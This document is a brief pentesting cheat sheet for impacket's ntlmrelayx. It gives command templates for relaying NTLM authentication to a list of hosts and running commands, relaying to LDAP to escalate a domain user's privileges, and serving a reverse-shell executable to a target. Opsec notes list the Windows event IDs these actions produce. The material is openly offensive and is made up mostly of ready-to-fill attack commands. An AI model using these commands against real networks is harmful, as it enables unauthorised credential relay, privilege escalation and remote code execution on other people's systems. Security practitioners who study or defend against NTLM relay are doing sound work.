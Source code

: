 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py  

### Pass-The-Hash with NTHash/NTLM possible
```
# Pass-The-Hash with NET-NTLM/NTLMv1/v2 not possible
```

### relay requests to ip addresses, without -c ntlmrelayx will use secretsdump (must be in the same directory)
```
impacket-ntlmrelayx -tf <rhostFile> -c '<command>'
```

### start relay using ldap (authentication needs to go over HTTP) - use ldaps for secure ldap
```
impacket-ntlmrelayx -t ldap://<dcIp> --escalate-user <user>
```

### serve payload, -t = target, -e payload from file
```
impacket-ntlmrelayx -t <rhost> -e <./reverse.exe>
```

### if client throws smb version-error use: -smb2support 
```
```

### opsec considerations - Windows Security Log Event IDs
```
-Logon (4624) -> multiple
-Logoff (4634) -> multiple
-Special Logon (4672) -> multiple
```

### Windows System Logs
```
Service Control Manager (7040) -> multiple
```

